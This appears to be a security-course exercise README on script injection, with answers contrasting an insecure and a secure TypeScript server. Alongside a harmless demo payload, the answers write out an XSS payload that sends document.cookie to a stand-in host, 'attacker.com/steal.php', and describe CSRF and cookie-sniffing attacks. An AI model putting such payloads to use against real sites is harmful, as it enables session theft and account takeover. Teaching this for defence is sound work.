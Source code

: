 # Tampering

This example demonstrates tampering through script injection.

## Steps to reproduce

1. Install all dependencies

    `npm install`

2. Start the **insecure.ts** server

    `npx ts-node insecure.ts`

3. In the browser, type a potentially malicious script in the name field of the form

    ```
        <script> document.body.innerHTML = "<a href='https://google.com'> Gotcha </a>"</script>
    ```

4. Do you see the potentially malicious hyperlink being injected into the form?

## For you to do

Answer the following:

1. Briefly explain the potential vulnerabilities in **insecure.ts**
2. Briefly explain how a malicious attacker can exploit them.
3. Briefly explain why **secure.ts** does not have the same vulnerabilties?



1. Potential Vulnerabilities in insecure.ts

Cross-Site Scripting (XSS) - The /register route doesn't sanitize user input before storing it in the session and rendering it back to the page.

Missing CSRF Protection - There's no implementation of CSRF tokens to prevent cross-site request forgery attacks.

Session Security Issues - While some cookie security settings are implemented, they don't include the 'secure' flag to restrict cookies to HTTPS.

2. How an Attacker Can Exploit These Vulnerabilities

XSS Attack - An attacker could submit a name like <script>document.location='https://attacker.com/steal.php?cookie='+document.cookie</script>. When any user visits the homepage, this script would execute and send the user's session cookie to the attacker's server.

CSRF Attack - An attacker could create a malicious website that contains a form automatically submitting to your /register or /sensitive endpoints, performing actions on behalf of authenticated users without their knowledge.

Session Hijacking - Without the 'secure' flag, session cookies might be transmitted over unencrypted connections, allowing attackers to intercept them through network sniffing.

3. Why secure.ts Doesn't Have the Same Vulnerabilities

XSS Prevention - secure.ts implements the escapeHTML() function that sanitizes user input by escaping HTML special characters, preventing script injection.

Better Input Handling - The sanitized input is stored in the session, ensuring that any malicious script tags are rendered as text rather than being executed when displayed.

Same Security Improvements - While secure.ts still lacks CSRF protection and the 'secure' cookie flag, the critical XSS vulnerability has been addressed, significantly reducing the attack surface.